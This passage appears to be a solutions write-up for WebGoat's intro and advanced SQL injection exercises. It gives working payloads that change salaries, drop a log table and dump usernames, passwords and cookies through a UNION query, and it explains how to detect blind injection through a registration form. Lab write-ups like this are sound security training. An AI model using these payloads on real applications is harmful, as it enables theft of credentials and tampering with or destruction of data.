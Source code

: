 ### WebGoat SQL (Intro) - Solution for exercise 12:

````title="Employee Name:"
' or 1=1; UPDATE employees SET salary=100000 WHERE first_name='John'
````

### WebGoat SQL (Intro) - Solution for exercise 13:

````title="Action contains:"
' or 1=1; DROP TABLE access_log;--
````

---

## Solutions Advanced -- Where things get interesting
---

### WebGoat SQL (Advanced) - Solution for exercise 3:

````title="Name:"
Dave' union select userid, user_name, 'name', 'cc', password, cookie, 1 from user_system_data;--
````

or

````title="Name:"
Dave'; select * from user_system_data;--
````

### WebGoat SQL (Advanced) - Solution for exercise 5:

This one involved blind SQL injection on a login page. After much trials on the login section with the username and pass, I moved on to the registration section and created a new user named 'devon.' After creating the user I then tried creating the same user with:

````title="Username:"
devon' and 1=1;--
````

The response was that the user was already created, but this can't be true as the username includes the '1=1' and other special script. This shows that there is a user with this name, which we already knew and that the server used the remaining string as an injection that compared the user name AND 1=1 which returned a hit.

Also, you can double check that injection is possible by using the reverse logic:

````title="Username:"
devon' and 1=2;--
````

Using this entry, one can create the same user over and over without being warned that the user already exists. This again indicates that the server is using the injection. Devon exists so the left side of AND is TRUE and as 1=2 is FALSE, the boolean logic becomes:

true AND false = false

---
